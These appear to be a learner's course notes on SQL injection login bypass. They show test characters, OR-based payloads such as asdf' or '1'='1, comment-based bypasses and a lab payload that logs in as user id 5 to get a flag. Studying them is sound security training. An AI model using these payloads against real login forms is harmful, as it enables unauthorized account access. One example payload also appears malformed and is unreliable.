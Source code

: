 # Subverting Query Logic

## Authentication Bypass

Example of original query at backend.

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

### Test if web is vulnerable to SQLi

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.

If it's vulnerable it will throw error instead of intended message 'i.e., login failed, authentication failed, etc.'

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

### Bypass using OR Injection

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

* If username is `admin`\
  `OR`
* If `1=1` return `true` 'which always returns `true`'\
  `AND`
* If password is `something`

#### Assessment

<figure><img src="../../.gitbook/assets/image (20) (3).png" alt=""><figcaption><p>vuln to SQLi</p></figcaption></figure>

```sql
SELECT * FROM logins WHERE username=''' AND password = '';
```

**bypass login**

<pre><code><strong># Username
</strong>asdf' or '1'='1
# Password
asdf' or '1'='1
</code></pre>

```sql
SELECT * FROM logins WHERE username='asdf' or '1'='1' AND password = 'asdf' or '1'='1';
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption><p>Bypassed</p></figcaption></figure>

```
# Username
tom' ='1'='1
# Password
anything
```

since the username query is true by it self, the password could be anything and the statement will still be true.

### Bypass using Comments

We can use two types of line comments with MySQL `--` and `#`, in addition to an in-line comment `/**/`

```shell-session
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

{% hint style="info" %}
if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symb
{% endhint %}

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

#### Assessment

Login as the user with the id 5 to get the flag.

Original query

```sql
SELECT * FROM logins WHERE (username=''' AND id > 1) AND password = 'xxx';
```

Payload

```
# Username
adasdfmin') OR id = 5 -- -
```

Final query

<pre class="language-sql"><code class="lang-sql"><strong>SELECT * FROM logins WHERE (username='adasdfmin') OR id = 5 -- -' AND id > 1) AND password = 'xxx';
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (95) (1) (1).png" alt=""><figcaption></figcaption></figure>



























